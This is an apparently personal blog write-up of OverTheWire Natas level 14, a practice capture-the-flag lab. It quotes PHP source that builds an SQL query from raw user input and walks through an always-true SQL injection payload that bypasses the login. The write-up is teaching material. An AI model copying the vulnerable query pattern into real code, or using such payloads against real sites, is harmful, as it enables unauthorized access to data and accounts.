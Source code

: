 +++
author = "Alex Domnit"
title = 'Natas-Level 14'
date = 2024-08-22T14:17:44+03:00
draft = false
description = "Writeup"
tags = [
    "CTF",
    "Completed",
]
categories = [
    "Overthewire",
    "Natas",
]

toc = false
+++

### Login
*Username: natas14*\
*Password: SdqIqBsFcz3yotlNYErZSZwblkm0lrvx*\
*URL:      http://natas14.natas.labs.overthewire.org*

### Doc
[What is SQL?](https://en.wikipedia.org/wiki/SQL)\
Structured Query Language is a domain-specific language used to manage data, especially in a relational database management system. It is particularly useful in handling structured data, i.e., data incorporating relations among entities and variables. 
[What is SQL injection?](https://en.wikipedia.org/wiki/SQL_injection)\
In computing, SQL injection is a code injection technique used to attack data-driven applications, in which malicious SQL statements are inserted into an entry field for execution.

### Solution
This time, we are not prompted with the same login window as until now. We need to log in through a form and there is also the source code present.
<img src="/img/natas/natas14-1.png" alt="gif" style="display: block; margin-left: auto; margin-right: auto;">
<br>
**Source code:**

{{< highlight html >}}
<html>
<head>
<!-- This stuff in the header has nothing to do with the level -->
<link rel="stylesheet" type="text/css" href="http://natas.labs.overthewire.org/css/level.css">
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/jquery-ui.css" />
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/wechall.css" />
<script src="http://natas.labs.overthewire.org/js/jquery-1.9.1.js"></script>
<script src="http://natas.labs.overthewire.org/js/jquery-ui.js"></script>
<script src=http://natas.labs.overthewire.org/js/wechall-data.js></script><script src="http://natas.labs.overthewire.org/js/wechall.js"></script>
<script>var wechallinfo = { "level": "natas14", "pass": "<censored>" };</script></head>
<body>
<h1>natas14</h1>
<div id="content">
<?php
if(array_key_exists("username", $_REQUEST)) {
    $link = mysqli_connect('localhost', 'natas14', '<censored>');
    mysqli_select_db($link, 'natas14');

    $query = "SELECT * from users where username=\"".$_REQUEST["username"]."\" and password=\"".$_REQUEST["password"]."\"";
    if(array_key_exists("debug", $_GET)) {
        echo "Executing query: $query<br>";
    }

    if(mysqli_num_rows(mysqli_query($link, $query)) > 0) {
            echo "Successful login! The password for natas15 is <censored><br>";
    } else {
            echo "Access denied!<br>";
    }
    mysqli_close($link);
} else {
?>

<form action="index.php" method="POST">
Username: <input name="username"><br>
Password: <input name="password"><br>
<input type="submit" value="Login" />
</form>
<?php } ?>
<div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
</div>
</body>
</html>
{{< /highlight >}}
#### What does this code do?
The important selection out of all of that code is this: 
```
$query = "SELECT * from users where username=\"".$_REQUEST["username"]."\" and password=\"".$_REQUEST["password"]."\"";
```
It is not really that hard to understand if you have any experience with <strong>SQL</strong>. The code basically resumes to "ill look for any records that have the username and password as the ones you input for me".\
Afterwards, we need to take a look at another part of the code, that being:
```
if(mysqli_num_rows(mysqli_query($link, $query)) > 0) {
            echo "Successful login! The password for natas15 is <censored><br>";
    } else {
            echo "Access denied!<br>";
    }
```
This part of the executions makes sure that your <strong>SELECT</strong> statement returns something and if it does, ouput the password for the next level.\
This means that all we have to do is manipulate our input such that we select something, we dont care what we do. I taught of going for buzzwords like "admin" and "test" but that didn`t result into any finds. The next logic thing to do is try to execute some sql sequence that is not originally intended. The simplest way to achieve this is to run a <strong>TRUE</strong>=<strong>TRUE</strong> statement wich will always bring something up. It is also worth noting that the <strong>OR</strong> statement returns true if one of the inputs is true.
Simplify the execution:
```
Select * from users where username="variable1" and password="variable2"
```
Since we can\`t do much with variable1, we could try pushing the " or commenting it in regards to out insert in <strong>variable2</strong>. Now let\`s put all of this together in order to run an or statement.
```
variable1=idontcare
variable2=idontcare" or "string"="string
```
This boils down the query to:
```
Select * from users where username="idontcare" and password="idontcare" or "string"="string"
```
Since <strong>"string"</strong> will always be equal to <strong>"string"</strong>, the query should return something.

<img src="/img/natas/natas14-2.png" alt="gif" style="display: block; margin-left: auto; margin-right: auto;">
<br>
<img src="/img/natas/natas14-3.png" alt="gif" style="display: block; margin-left: auto; margin-right: auto;">
<br>
Good job!